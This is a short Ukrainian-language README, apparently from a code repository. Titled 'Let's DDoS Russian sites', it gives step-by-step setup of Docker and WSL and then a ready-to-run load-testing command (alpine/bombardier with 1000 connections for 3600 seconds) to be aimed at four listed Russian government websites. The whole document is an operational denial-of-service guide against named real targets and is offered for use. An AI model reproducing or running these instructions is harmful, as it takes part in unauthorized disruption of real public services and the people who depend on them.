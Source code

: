 ## Дудосим російські сайти

1) Встановити докер https://www.docker.com/get-started 
2) Встановити WLS в четвертому пункті https://docs.microsoft.com/ru-ru/windows/wsl/install-manual#step-4---download-the-linux-kernel-update-package 
3) Докер має вигляди наступним чином

![изображение](https://user-images.githubusercontent.com/50421230/155846674-d6c7a529-a2a4-4bf6-9e54-6924c9b5f409.png)

4) Зайдіть в консоль і пропишіть цю команду ```docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l``` через пробіл після цієї команди встате силку на один із цих сайтів
 - https://www.gosuslugi.ru/
 - https://epp.genproc.gov.ru
 - https://ach.gov.ru
 - http://www.scrf.gov.ru
